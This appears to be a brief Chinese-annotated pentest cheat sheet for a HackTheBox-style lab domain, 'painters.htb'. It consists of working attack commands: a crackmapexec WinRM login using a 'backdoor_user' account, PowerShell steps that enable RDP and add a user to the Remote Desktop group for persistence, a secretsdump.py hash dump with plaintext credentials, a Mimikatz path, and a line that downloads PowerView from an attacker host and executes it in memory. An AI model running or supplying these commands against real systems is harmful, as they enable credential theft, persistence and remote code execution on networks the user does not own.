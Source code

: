 #  crackmapexec

`crackmapexec winrm 192.168.110.0/24 -u 'PAINTERS.HTB\backdoor_user' -p 'P@ssw0rd123!'`

# RDP

#### 1. 启用 RDP 服务
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

----

#### 2. 放行防火墙中的 RDP 端口（3389）
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

----

#### 3.  确认 RDP 服务已经启用
Get-Service -Name TermService

----

#### 4. 添加用户到 Remote Desktop Users 组
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "riley"

----

xfreerdp /u:riley /p:P@ssw0rd /d:painters.htb /v:192.168.110.56 /cert:ignore

----

# Hash Dump

secretsdump.py painters.htb/web_svc:'!QAZ1qaz'@192.168.110.52

`/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1`

# PowerShell remote script

`iex (iwr http://10.10.14.3/PowerView.ps1 -UseBasicParsing)`


